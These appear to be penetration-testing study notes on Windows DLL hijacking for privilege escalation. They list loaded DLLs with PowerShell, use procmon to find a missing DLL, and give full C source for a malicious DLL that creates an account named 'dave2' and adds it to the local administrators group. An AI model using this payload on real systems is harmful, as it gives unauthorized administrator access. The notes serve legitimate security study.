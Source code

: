 
Get a list of running processes.
```c
Get-Process
```
List all DLLs loaded by a running process.
```c
Get-Process chrome | select -ExpandProperty modules | group -Property FileName | select name
```
Here is output:
![[Pasted image 20231124093810.png]]



Find process just like before that is in an unprotected folder. 

Run procmon as an administrator. If not, pull it back to local windows and run it there. Create filter just to show that process, then restart the process to see what dll it loads :
![[Pasted image 20231017192647.png]]
mydll.dll did not load. lets replace it according to the order. 

It will try to load into the current working directory of that executable, so in this case, documents. 

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
*sample dll to add a user named dave2 to localgroup administrators*

### Kernel Level Exploits
https://github.com/SecWiki/windows-kernel-exploits
